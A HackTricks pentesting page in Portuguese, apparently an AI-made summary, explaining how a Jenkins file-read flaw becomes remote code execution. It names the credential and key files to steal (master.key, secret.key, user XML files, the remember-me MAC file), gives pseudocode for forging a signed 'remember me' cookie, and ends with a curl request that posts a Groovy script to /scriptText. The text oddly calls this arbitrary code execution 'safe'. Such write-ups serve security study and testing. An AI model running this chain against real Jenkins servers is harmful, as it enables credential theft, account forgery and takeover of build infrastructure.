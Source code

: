 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Neste post do blog é possível encontrar uma ótima maneira de transformar uma vulnerabilidade de Inclusão de Arquivo Local no Jenkins em RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Este é um resumo criado por IA da parte do post onde a criação de um cookie arbitrário é abusada para obter RCE abusando de uma leitura de arquivo local até que eu tenha tempo para criar um resumo por conta própria:

### Pré-requisitos do Ataque

* **Requisito de Funcionalidade:** "Lembre-se de mim" deve estar habilitado (configuração padrão).
* **Níveis de Acesso:** O atacante precisa de permissões Gerais/Leitura.
* **Acesso Secreto:** Capacidade de ler tanto conteúdo binário quanto textual de arquivos-chave.

### Processo Detalhado de Exploração

#### Passo 1: Coleta de Dados

**Recuperação de Informações do Usuário**

* Acesse a configuração do usuário e segredos de `$JENKINS_HOME/users/*.xml` para cada usuário para coletar:
* **Nome de usuário**
* **Semente do usuário**
* **Timestamp**
* **Hash da senha**

**Extração da Chave Secreta**

* Extraia chaves criptográficas usadas para assinar o cookie:
* **Chave Secreta:** `$JENKINS_HOME/secret.key`
* **Chave Mestra:** `$JENKINS_HOME/secrets/master.key`
* **Arquivo de Chave MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Passo 2: Forjamento de Cookie

**Preparação do Token**

*   **Calcular Tempo de Expiração do Token:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Adiciona uma hora ao tempo atual
```
{% endcode %}
*   **Concatenar Dados para o Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Descriptografia da Chave MAC**

*   **Descriptografar o Arquivo de Chave MAC:**

```javascript
key = toAes128Key(masterKey)  // Converte a chave mestra para o formato de chave AES128
decrypted = AES.decrypt(macFile, key)  // Descriptografa o arquivo .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Cálculo da Assinatura**

*   **Calcular HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Calcula HMAC usando o token e a chave MAC
tokenSignature = bytesToHexString(mac)  // Converte o MAC para uma string hexadecimal
```

**Codificação do Cookie**

*   **Gerar Cookie Final:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Codifica os dados do cookie em Base64
```
{% endcode %}

#### Passo 3: Execução de Código

**Autenticação de Sessão**

* **Buscar Tokens CSRF e de Sessão:**
* Faça uma solicitação para `/crumbIssuer/api/json` para obter `Jenkins-Crumb`.
* Capture `JSESSIONID` da resposta, que será usado em conjunto com o cookie de lembrete.

**Solicitação de Execução de Comando**

*   **Enviar uma Solicitação POST com Script Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* O script Groovy pode ser usado para executar comandos em nível de sistema ou outras operações dentro do ambiente Jenkins.

O comando curl de exemplo fornecido demonstra como fazer uma solicitação ao Jenkins com os cabeçalhos e cookies necessários para executar código arbitrário de forma segura.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
